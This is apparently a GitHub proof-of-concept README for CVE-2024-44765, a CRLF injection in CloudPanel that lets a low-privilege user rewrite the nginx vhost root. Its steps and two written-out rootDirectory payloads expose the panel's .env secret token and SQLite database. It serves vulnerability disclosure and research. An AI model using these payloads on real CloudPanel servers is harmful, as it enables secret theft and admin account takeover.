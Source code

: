 # Proof of Concept (PoC) for Cloudpanel [CRLF Injection / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:

2. **Step 2**: Click manage and check Root Directory input:

3. **Step 3**: Click save and intercept the request via burp suite:

4. **Step 4**: Leaking sensitive data.

    4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=yourdomain.my%0a%0droot%0a/home/clp/htdocs/app/files
        ```
   
    4.2 **Step 4.2**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```plaintext
        site_domain_settings[rootDirectory]=yourdomain.my%0a%0droot%0a/home/clp/htdocs/app/data
        ```
